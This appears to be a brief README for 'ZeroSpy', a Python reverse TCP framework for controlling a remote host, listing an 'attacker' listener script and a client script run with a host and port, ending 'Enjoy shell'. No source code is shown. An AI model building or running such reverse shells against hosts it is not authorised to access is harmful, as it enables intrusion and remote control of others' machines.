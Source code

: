 # ZeroSpy Framework

Reverse TCP Python Framework for controlling a remote host. Not entirely abandoned but development is going to be rough.

The project basically contains two main files.
1. zero.py ( attacker )
python zero.py
2. connect.py ( client )
python connect.py <host> <port>
Enjoy shell 
